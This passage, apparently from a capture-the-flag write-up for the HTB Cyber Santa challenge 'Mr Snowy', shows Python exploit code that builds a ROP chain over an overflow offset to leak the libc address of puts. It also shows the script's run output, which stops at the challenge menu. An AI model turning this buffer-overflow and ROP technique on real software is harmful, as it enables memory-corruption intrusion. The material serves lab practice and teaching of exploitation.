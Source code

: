 ```python
rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
# # input 1 for the first input
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

# # sending the payload for the second input
print(payload)
s.sendline(payload)

# # I used 2 recvline() to bruteforce when the program will print the address of puts.
# # Since usually it only needs 2 recvline()
print(s.recvline().decode())
print(s.recvline().decode())
```

Now we need to do is just run the program to get the address from puts GOT!

```python
$ python3 snowy_solver.py
[*] '/home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy': pid 1773
                                                                                                                 
                                                                                                                 
[Location]: 🎅 Santa's garden..                                                                                  
                                                                                                                 
   _____    *  *  *  *  *     *  *                                                                               
   |   |        *   *    *   * **                                                                                
  _|___|_     *  *  *   *  **  *                                                                                 
  ( 0 0 )   *   *  *   * *   * *   *                                                                             
 (   *   )    *   *    *    *   * *                                                                              
(    *    )      *  *   *  *   *  *                                                                              
 \_______/    *   *   *  ***   **                                                                                
                                                                                                                 
                                                                                                                 
[*] This snowman looks sus..                                                                                     
                                                                                                                 
1. Investigate 🔎                                                                                                
2. Let it be   ⛄                                                                                                
>                                                                                                                
1                                                                                                                
                                                                                                                 
```